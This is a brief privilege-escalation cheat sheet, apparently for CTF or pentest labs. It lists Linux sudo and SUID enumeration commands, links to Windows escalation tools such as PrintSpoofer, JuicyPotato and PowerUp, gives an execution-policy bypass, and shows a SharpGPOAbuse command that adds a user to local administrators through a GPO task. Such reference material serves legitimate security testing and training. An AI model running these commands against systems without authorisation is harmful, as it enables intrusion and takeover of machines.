 # Linux Privesc
- Find sudo permitted files
```
sudo -l
```

- Find SUID binaries
```
find / -type f -perm -u=s 2>/dev/null
```

-Find SUID binaries
```
find / -type f -perm -4000 2>/dev/null
```

----------------------------------------------------------------------


# Window Privesc

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
